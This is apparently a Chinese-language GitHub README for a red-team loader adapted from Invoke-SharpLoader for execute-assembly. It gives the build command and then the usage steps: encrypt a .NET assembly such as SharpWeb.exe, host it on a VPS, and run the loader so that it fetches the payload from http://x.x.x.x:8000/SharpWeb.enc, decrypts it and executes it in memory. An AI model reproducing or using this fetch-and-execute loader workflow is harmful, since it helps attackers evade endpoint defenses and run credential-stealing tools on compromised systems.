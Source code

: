 原版项目：https://github.com/S3cur3Th1sSh1t/Invoke-SharpLoader

根据该项目进行改造c#代码，以适配execute-assembly使用，更方便红队日常工作

项目编译

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe Invoke-SharpLoader.csproj


使用方法

需要先加密
Invoke-SharpEncrypt -file C:\c#程序集\SharpWeb.exe -password mypassword -outfile C:\c#程序集\SharpWeb.enc

放到vps的远端访问目录  

Invoke_SharpLoader.exe http://x.x.x.x:8000/SharpWeb.enc mypassword args
![image](https://github.com/user-attachments/assets/44dd4fec-c0fa-44d3-a038-04aac94b0052)

